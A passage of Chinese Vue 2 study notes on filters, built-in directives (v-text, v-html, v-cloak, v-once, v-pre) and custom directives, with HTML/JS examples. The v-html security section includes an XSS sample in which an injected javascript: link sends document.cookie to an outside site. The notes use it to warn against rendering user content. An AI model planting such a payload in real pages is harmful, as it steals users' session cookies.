    <!-- mySlice为全局过滤器 -->
    <h2>当前时间：{{time | getDateTime('YYYY/MM/DD') | mySlice}}</h2>
  </div>

  <div id="root2">
    <h1>时间戳转换</h1>
    <h2>当前时间：{{time}}</h2>
    <!-- mySlice为全局过滤器 -->
    <h2>当前时间：{{time | mySlice}}</h2>
  </div>
</body>
<!-- 导入day.js -->
<script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.11.5/dayjs.min.js"></script>
<!-- 导入vue.js -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  // 定义全局过滤器
  Vue.filter('mySlice', function(value) {
    return value.slice(0, 4)
  })

  const vm = new Vue({
    el: '#root',
    data: {
      time: Date.now()
    },
    filters: {
      // 局部过滤器
      // 属于vm
      getDateTime(value, formatStr='YYYY-MM-DD HH:mm:ss') {
        return dayjs(value).format(formatStr);
      }
    }
  })

  const vm2 = new Vue({
    el: '#root2',
    data: {
      time: '2022/10/10'
    }
  })
</script>
</html>
```

> 

### 4.7 在v-bind中使用过滤器（几乎不会使用）

语法：

```html
v-bind:属性 = "xxx | 过滤器名"
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>时间戳转换</h1>
    <h2>当前时间的时间戳：{{time}}</h2>
    <h2>当前时间：{{time | getDateTime('YYYY/MM/DD') | mySlice}}</h2>
      <!-- 几乎不会使用bind的用法 -->
    <p :x="time | getDateTime('YYYY/MM/DD') | mySlice"></p>
  </div>
</body>
<!-- 导入day.js -->
<script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.11.5/dayjs.min.js"></script>
<!-- 导入vue.js -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  // 定义全局过滤器
  Vue.filter('mySlice', function(value) {
    return value.slice(0, 4)
  })

  const vm = new Vue({
    el: '#root',
    data: {
      time: Date.now()
    },
    filters: {
      // 局部过滤器
      // 属于vm
      getDateTime(value, formatStr='YYYY-MM-DD HH:mm:ss') {
        return dayjs(value).format(formatStr);
      }
    }
  })
</script>
</html>
```

> 

## 5. 总结 过滤器

- 定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
- 语法：
  - 1.注册过滤器：`Vue.filter(name,callback)` 或 `new Vue{filters:{}}`
  - 2.使用过滤器：`{{ xxx | 过滤器名}}` 或 `v-bind:属性 = "xxx | 过滤器名"`
- 备注：
  - 1.过滤器也可以接收额外参数、多个过滤器也可以串联
  - 2.并没有改变原本的数据, 是产生新的对应的数据

# 18.Vue的其他内置指令

## 1. 学过的指令的总结

- v-bind : 单向绑定解析表达式, 可简写为 `:`
- v-model : 双向数据绑定
- v-for : 遍历数组/对象/字符串
- v-on : 绑定事件监听, 可简写为`@`
- v-if : 条件渲染（动态控制节点是否存存在）
- v-else : 条件渲染（动态控制节点是否存存在）
- v-show : 条件渲染 (动态控制节点是否展示)

## 2. v-text 指令

v-text 指令的作用：向其所在的节点中渲染文本内容。

v-text 指令与插值语法的区别：v-text会替换掉节点中的内容，即会覆盖元素内部原有的内容，而插值语法则不会。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h2>你好，{{name}}</h2>
    <h2 v-text="name">你好，</h2>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      name: '张三'
    }
  })
</script>
</html>
```

> 

## 3. v-html 指令

> v-text和插值表达式只能渲染纯文本内容，如果要把包含html标签的字符串渲染为页面的html元素，需要使用v-html。

v-html 指令可以向指定节点中渲染包含html结构的内容。

v-html 也会替换掉节点中的内容，即会覆盖元素内部原有的内容。

### 3.1 示例

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset= "UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <div>{{str}}</div>
    <div v-text="str">你好</div>
    <div v-html="str">你好</div>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      str: '<h1>hello world</h1>'
    }
  })
</script>
</html>
```

> 

### 3.2 v-html 的安全性问题

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				// 如果此元素被解析到页面上
				// 那么将会生成一个超链接标签
				// 当用户点击后
				// 由于 location.href="http://www.baidu.com?"+document.cookie
				// 本网站的cookie将被获取，同时跳转到指定页面，将本网站的cookie发送给跳转网站的服务器
				// 这样子别人就能够获取和使用我们的cookie进行登录或者其他操作
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

> 
> 
> 

Cookie中，勾选了HttpOnly的内容不能通过document.cookie直接获取，只能通过http协议获取，http协议之外的任何方式都不能得到。



得到的只有没有勾选HttpOnly的内容



### 3.3 v-html 总结

1. v-html 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
   - (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
   - (2).v-html可以识别html结构。
3. 严重注意：v-html有安全性问题！！！！
   - (1).在网站上动态渲染任意HTML是非常危险的，容易导致[XSS攻击(冒充用户之手)](https://baike.baidu.com/item/XSS攻击/954065)。
   - (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

## 4. v-cloak 指令

v-cloak指令没有值，本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<!-- 
			由于加载vue.js在html元素之后，所以当网速较慢时，vue.js还未获取到
			此时未经vue渲染的原始html元素就会显示给用户
			如果使用了v-cloak再配合css则可以实现在vue.js未获取时不显示，直到获取之后才显示
			因为创建vue实例对象只能在获取vue.js之后，使用vue实例页面进行渲染也只能在创建vue实例之后
		 -->
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
</html>
```

## 5. v-once 指令

v-once 所在节点在初次动态渲染后，就视为静态内容了。以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

示例：

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-once指令</title>
		<!-- 引入Vue -->
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 只有第一次动态渲染才会进行数据的更新 -->
			<!-- 以后数据的改变不会引起v-once所在结构的更新 -->
			<h2 v-once>初始化的n值是:{{n}}</h2>
			<h2>当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
</html>
```

> 

## 6. v-pre 指令

v-pre指令能够使vue跳过其所在节点的编译过程，即在代码中写的什么样在页面中就显示什么，vue不会对v-pre所在的节点进行渲染。

可利用 v-pre 指令跳过 没有使用指令语法、没有使用插值语法 的节点，会加快编译。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-pre指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-pre>Vue其实很简单</h2>
			<h2 v-pre>当前的n值是:{{n}}</h2>
			<button v-pre @click="n++">点我n+1</button>
			<h2 >当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
</html>
```

> 
> 

# 19.自定义指令

------

## 1. 自定义指令

在vue中支持自定义指令，自定义指令声明在vue的directives节点中。

> 自定义指令本质为一个函数。

### 1.1 语法

定义自定义指令有两种形式的写法：

- 函数形式

  ```js
  new Vue({
  	directives: {
  		指令名(参数列表) {}
  	}
  })
  ```

- 对象形式

  ```js
  new Vue({
  	directives: {
  		指令名: {
  			// 指令与元素成功绑定时被调用
  			bind() {},
  			// 指令所在的元素被插入页面时调用
  			inserted() {},
  			// 指令所在的模板被重新解析时调用
  			update() {}
  		}
  	}
  })
  ```

使用自定义指令，需要使用`v-指令名`的形式。

### 1.2 自定义指令的参数

自定义指令的处理函数接收两个参数，第一个参数为使用自定义指令的DOM元素(element)，第二个参数为指令的绑定信息(binding)。

## 2. 自定义指令实现数值放大10倍

需要实现的需求：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。

### 2.1 查看自定义指令的参数

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
      directives: {
        big(element, bingding) {
          console.log('element: ')
          console.log(element)
          console.log('binding: ')
          console.log(bingding)
        },
      },
    })
  </script>
</html>
```

> 

### 2.2 需求的实现

实现把绑定的数值放大10倍，然后将放大后的数值放到DOM元素上，需要我们操作DOM元素。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
      directives: {
        big(element, bingding) {
          // 操作DOM元素，将放大后的数值放入DOM元素中
          // bingding.value 获取当前指令绑定的表达式的值
          // element.innerText 将放大后的数值放入DOM元素中
          element.innerText = bingding.value * 10
        },
      },
    })
  </script>
</html>
```

> 

### 2.3 自定义指令调用的时机

#### 2.3.1 指令与元素成功绑定时（初始化页面）

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
      directives: {
        big(element, bingding) {
          console.log('自定义指令 big 被调用...')
          element.innerText = bingding.value * 10
        },
      },
    })
  </script>
</html>
```

> 

#### 2.3.2 所在的模板被重新解析时

自定义指令被调用的时机，不仅是在与自定义指令相关的数据改变时，只要自定义指令所在的模板被重新解析，自定义指令就会被调用。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button>
      <h2>x的值为: {{x}}</h2>
      <button @click="x++">x++</button>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
        x: 100
      },
      directives: {
        big(element, bingding) {
          console.log('自定义指令 big 被调用...')
          element.innerText = bingding.value * 10
        },
      },
    })
  </script>
</html>
```

> 

## 3. 自定义指令让其所绑定的input元素默认获取焦点

需要实现的需求：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。

### 3.1 需求实现

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button> <br><br>
      <input type="text" v-fbind:value="n">
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0
      },
      directives: {
        big(element, bingding) {
          element.innerText = bingding.value * 10
        },
        // 让指令fbind所绑定的input元素默认获取焦点
        fbind(element, binding) {
          // 将n的值放入input中
          element.value = binding.value
          // 然后input获取焦点
          element.focus()
        }
      },
    })
  </script>
</html>
```

> 观察运行结果发现，input输入框并没有在最开始默认获取焦点，而是在点击按钮n+1后才自动获取焦点。
> 
> 

### 3.2 需求未实现的解释

通过操作DOM元素，让input输入框获取焦点，操作时，input输入框必须出现在页面上，否则input输入框获取焦点的代码不会在正常的时机生效，就达不到我们所需要的效果。

> 使用js操作DOM进行模拟

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Document</title>
	</head>
	<body>
		<button id="btn">创建一个输入框</button>
		
		<script type="text/javascript" >
			const btn = document.getElementById('btn')
			btn.onclick = ()=>{
				// 创建input输入框
				const input = document.createElement('input')
				// 输入框的value值默认为99
				input.value = 99
				// input输入框加入页面
				document.body.appendChild(input)
				// 输入框获取焦点
				input.focus()
				// 控制台输出打印新建的输入框的父元素
				console.log(input.parentElement)
			}
		</script>
	</body>
</html>
```

> 新建输入框并默认获取焦点的效果正常实现
> 

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Document</title>
	</head>
	<body>
		<button id="btn">创建一个输入框</button>
		
		<script type="text/javascript" >
			const btn = document.getElementById('btn')
			btn.onclick = ()=>{
				// 创建input输入框
				const input = document.createElement('input')
				// 输入框的value值默认为99
				input.value = 99

				// 输入框获取焦点
				input.focus()
				// 控制台输出打印新建的输入框的父元素
				console.log(input.parentElement)

				// input输入框加入页面
				document.body.appendChild(input)
				
			}
		</script>
	</body>
</html>
```

> 由于input输入框还未放入页面，所以无法操作input使其获取焦点，同时也无法获取input输入框的父元素。
> 

与上述示例代码同理，在页面进行初始化时，vue会先进行解析，页面解析完成后才会将元素放入页面并进行展示，vue在解析时会先将指令与元素进行绑定，这个时候自定义指令中的处理函数会先执行一次，但是此时由于页面中的元素还未在页面上，所以处理函数中的让输入框获取焦点的代码无法正常生效。

点击按钮n+1后，input输入框会获取焦点，是由于n值改变，vue会对页面重新进行解析，此时输入框已经出现在页面中了，所以获取焦点的代码能够生效。

### 3.3 对象形式自定义指令

> 为了解决该问题，可以使用对象形式自定义指令，在自定义指令对应的对象中，可以设置不同的函数，在自定义指令执行的不同时刻，vue会调用不同的函数。

对象形式自定义指令：

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button> <br /><br />
      <input type="text" v-fbind:value="n" />
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
      directives: {
        big(element, bingding) {
          element.innerText = bingding.value * 10
        },
        // 对象形式自定义指令
        fbind: {
          // 指令与元素成功绑定时被调用
          bind() {
            console.log('bind')
          },
          // 指令所在的元素被插入页面时调用
          inserted() {
            console.log('inserted')
          },
          // 指令所在的模板被重新解析时调用
          update() {
            console.log('update')
          },
        },
      },
    })
  </script>
</html>
```

> 

### 3.4 对象形式自定义指令实现需求

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button> <br /><br />
      <input type="text" v-fbind:value="n" />
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
      directives: {
        big(element, bingding) {
          element.innerText = bingding.value * 10
        },
        // 对象形式自定义指令
        fbind: {
          // 指令与元素成功绑定时被调用
          bind(element,binding) {
            // 为input输入框的value赋值
            // 初始化input的value值
            element.value = binding.value
          },
          // 指令所在的元素被插入页面时调用
          inserted(element,binding) {
            // 默认初始获取焦点
            element.focus()
          },
          // 指令所在的模板被重新解析时调用
          update(element,binding) {
            // 重新解析模板时，更新input的value值
            element.value = binding.value
          },
        },
      },
    })
  </script>
</html>
```

> 
> 

## 4. 自定义指令注意点

### 4.1 指令名多个单词之间使用短线符连接

指令名多个单词之间使用短线符连接之后，在自定义指令的声明定义时，需要使用引号进行包裹。

语法：

```js
      directives: {
        // 完整写法
        // 'big-number': function(element, bingding) {
        //   element.innerText = bingding.value * 10
        // },
        // 简写
        'big-number'(element, bingding) {
          element.innerText = bingding.value * 10
        },
      },
```


```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big-number="n"></span></h2>
      <button @click="n++">n++</button> <br /><br />
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
      directives: {
        // 完整写法
        // 'big-number': function(element, bingding) {
        //   element.innerText = bingding.value * 10
        // },
        // 简写
        'big-number'(element, bingding) {
          element.innerText = bingding.value * 10
        },
      },
    })
  </script>
</html>
```

> 

### 4.2 自定义指令中的this

自定义指令中的this都指向window，不指向vue实例对象。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big-number="n"></span></h2>
      <button @click="n++">n++</button> <br /><br />
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        n: 0,
      },
      directives: {
        // 简写
        'big-number'(element, bingding) {
          element.innerText = bingding.value * 10
          console.log(this)
        },
      },
    })
  </script>
</html>
```

> 

## 5. 定义全局自定义指令

### 5.1 语法

#### 5.1.1 函数形式

```js
Vue.directive( '指令名', 回调函数 )
```

#### 5.1.2 对象形式

```js
Vue.directive( '指令名', 配置对象 )
```

### 5.2 全局自定义指令实现需求

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button> <br /><br />
      <input type="text" v-fbind:value="n">
    </div>

    <hr />

    <div id="root2">
      <h2>n的值为: {{n}}</h2>
      <h2>n放大10倍对应的值为: <span v-big="n"></span></h2>
      <button @click="n++">n++</button> <br /><br />
      <input type="text" v-fbind:value="n">
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    // 定义全局自定义指令
    // 函数形式
    Vue.directive('big', function (element, bingding) {
      element.innerText = bingding.value * 10
    })
